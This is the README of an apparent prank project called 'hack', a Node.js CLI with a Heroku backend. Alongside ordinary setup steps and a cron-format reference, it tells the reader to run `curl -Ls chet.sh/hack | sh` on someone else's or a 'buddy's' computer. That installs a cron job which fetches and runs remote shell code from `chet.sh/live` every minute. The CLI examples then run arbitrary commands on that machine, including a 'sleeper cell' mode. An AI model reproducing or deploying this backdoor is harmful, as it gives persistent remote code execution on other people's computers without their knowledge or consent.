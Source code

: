 # Hack

## Getting Started

Clone, install, link:

```sh
git clone https://github.com/ccorcos/hack.git
cd hack
npm install
npm link
```

Setup Heroku:

```sh
brew install heroku-toolbelt
heroku login
heroku create hacker-chet
echo "ROOT_URL=$(heroku info -s | grep web-url | cut -d= -f2)" >> .env
```

Run locally:

```sh
npm start # alias for `heroku local web`
```

Deploy to Heroku:

```sh
npm run deploy # alias for `git push origin heroku`
```



- git push heroku master


- heroku ps:scale web=1
- heroku open


- heroku logs --tail


- heroku local web



- xo?


# To Do

- CLI should generate shell scripts with "HACK_URL" which will get injected by express based on the heroku config

-

xo and test


update without pushing / redeploying?

heroku config:set HEROKU_URL=$(heroku info -s | grep web-url | cut -d= -f2)


























Start hacking someone by running this command from their Terminal: `curl -Ls chet.sh/hack | sh`. That sets up a cron job every minute which pings `curl chet.sh/live | sh`.

Now go to your commandline and we can start having some fun.

```
hack live exec "say hello world"
hack live interval 1y # sleeper cell
hack live cron "20 16 * * * * say 'its foe 20, ye better be toke-in'"
hack live reset
hack live forget
hack live rename jon
hack jon ...
```

# FYI

http://www.nncron.ru/help/EN/working/cron-format.htm

```
* * * * *
| | | | |
| | | | |
| | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)
| | | +------ Month of the Year (range: 1-12)
| | +-------- Day of the Month  (range: 1-31)
| +---------- Hour              (range: 0-23)
+------------ Minute            (range: 0-59)
```

# PS

How to make a Node.js CLI app: http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm

# PPS

Bought the domain name `chet.sh` here: https://www.nic.sh/

# To Do

- demo
- better readme
- better help
- better command validation
- configure with custom domain name

# Getting Started

```sh
git clone ...
cd hack
npm install
npm link
```

On your buddy's computer, just need to run this:

```sh
curl -sL chet.sh/hack | sh
```
